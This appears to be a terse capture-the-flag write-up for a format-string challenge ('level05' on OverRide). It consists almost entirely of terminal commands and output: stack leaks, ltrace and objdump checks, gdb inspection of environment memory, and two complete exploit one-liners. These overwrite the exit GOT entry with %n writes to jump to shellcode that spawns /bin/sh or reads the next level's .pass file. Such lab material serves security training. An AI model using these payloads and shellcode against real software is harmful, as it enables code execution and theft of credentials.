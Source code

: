 ```
$> python -c "import struct; print('AAAABBBB' + '%x ' * 11)" | ./level05
aaaabbbb64 f7f39580 1 0 1 f7f99980 ffffffff 1 0 61616161 62626262
```

<pre>
echo | ltrace ./level05 1>&-
\__libc_start_main(0x8048444, 1, -10540, 0x8048520, 0x8048590 <unfinished ...>
<strong>fgets("\n", 100, 0xf7fcfac0)     = 0xffffd5c8</strong>
printf("\n")                     = 1
exit(0 <unfinished ...>
+++ exited (status 0) +++
</pre>

<pre>
level05@OverRide:~$ objdump -R ./level05 

./level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080497c4 R_386_GLOB_DAT    \__gmon_start_\_
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   \__gmon_start_\_
<strong>080497e0 R_386_JUMP_SLOT   exit</strong>
080497e4 R_386_JUMP_SLOT   \__libc_start_main
</pre>

```
(python2.7 -c "import struct; print('jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814\$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80' + 'AAAA' + struct.pack('<I', 0x080497e0) + struct.pack('<I', 0x080497e2) + '%54672d' + '%22\$n' + '%10807d' + '%23\$n')") | ./level05
```

<pre>
$> env -i SHELLCODE="$SHELLCODE" SHELL=/bin/bash gdb ./level05
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) r
Starting program: /home/users/level05/level05 

Breakpoint 1, 0x08048449 in main ()
(gdb) x/2s \*\*(char\*\*\*)&environ
0xffffdf4e:      "SHELLCODE=jsh.pashl06/hlevehers/he/ush/hom\211\343\061\311\061\322j\005X\315\200j\001[\211\301\061\322h\377\377\377\177^1\300\260\273\315\200"
0xffffdf97:      "SHELL=/bin/bash"
(gdb) x 0xffffdf4e + 10
0xffffdf58:      "jsh.pashl06/hlevehers/he/ush/hom\211\343\061\311\061\322j\005X\315\200j\001[\211\301\061\322h\377\377\377\177^1\300\260\273\315\200"
</pre>

<pre>
(python -c "import struct; print('AAAA' + struct.pack('<I', 0x080497e0) + struct.pack('<I', 0x080497e2) + '%57205d' + '%11\$n' + '%8318d' + '%12\$n')") | env -i SHELLCODE="$(python -c "print('\x90' * 20 + 'jsh.pashl06/hlevehers/he/ush/hom\x89\xe31\xc91\xd2j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80')")" SHELL=/bin/bash ./level05
</pre>
